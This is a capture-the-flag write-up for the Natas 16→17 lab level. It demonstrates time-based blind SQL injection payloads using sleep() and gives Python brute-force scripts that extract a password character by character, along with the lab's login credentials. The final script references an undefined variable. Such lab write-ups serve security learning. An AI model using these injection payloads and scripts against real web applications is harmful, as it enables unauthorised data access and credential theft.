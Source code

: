 # Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

<img src="./0.png"></img>

<img src="./1.png"></img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later):

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# cCurrent level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))
```

This is the resoult:

<img src="./2.png"></img>

Now we can run the brute force on the relevant characters only:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# cCurrent level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"
relevant_characters = ['4','6','8','a','g','k','n','o','q','u','v','w','x','D','E','F','G','J','L','N','P','Q','U','V','Z']
password = ""
password_length = 32

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

for _ in range(password_length):
    for c in relevant_characters:
        res = get(url=URL.format(sql_injection_time_based.format(password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            password += c
            print("Password: " + password.ljust(password_length, "_"))
            break
```

<img src="./3.png"></img>

And this is the password.


## Password for the next level:
```

```

## Appendix

The following code sums it all up. Run it and enjoy:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# cCurrent level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
natas18_password = ""
password_length = 32
characters_in_use = []


# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_recover_charecters = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"
sql_injection_recover_password = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

# Recover relevant characters
print("Discovering the characters appearing in the password:")
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_recover_charecters.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))

# Revover the password
print("Revealing the password")
for _ in range(password_length):
    for c in characters_in_use:
        res = get(url=URL.format(sql_injection_time_based.format(natas18_password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            natas18_password += c
            print("Password: " + natas18_password.ljust(password_length, "_"))
            break
    
print("Password for natas18 is: " + natas18_password)
```
